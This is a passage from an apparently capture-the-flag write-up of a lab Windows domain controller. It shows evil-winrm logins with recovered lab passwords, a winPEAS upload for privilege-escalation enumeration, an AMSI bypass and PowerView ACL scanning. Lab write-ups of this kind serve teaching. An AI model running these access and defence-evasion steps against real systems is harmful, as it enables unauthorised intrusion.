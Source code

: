 We have a few options with these credentials. Let's go ahead and try to remotely connect to the domain controller with evil-winrm.  

```bash
$ evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

We successfully connect. Now we have our foothold, let's collect the user flag.

![](/assets/img/posts/htb/06-2020-2/user-flag.png)

## Root Flag

Now that we have a foothold, let's upload `winPEAS.exe` to [enumerate the system further](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and see what options exist for privilege escalation.

```powershell
> upload winPEASany.exe
> ./winPEASany.exe
```

The results come back and it looks like some AutoLogon credentials were found for the user svc_loanmgr. We can verify the correct username by using the command `net user /domain`.

![](/assets/img/posts/htb/06-2020-2/autolog.png)

Let's use these credentials to remotely access the domain controller. We'll also throw `PowerView.ps1` into a `scripts` directory so we can invoke some PowerSploit commands during our `evil-winrm` session.

```bash
$ evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!' -s scripts/
```

Using `evil-winrm` let's bypass AMSI. Next we'll run our `PowerView.ps1` script, then invoke `aclscanner` which will return certain rights and accesses for our user. We can also use [Bloodhound](https://github.com/BloodHoundAD/BloodHound) to find a means of attack.

```powershell
> Bypass-4MSI
> PowerView.ps1
> invoke-aclscanner
```

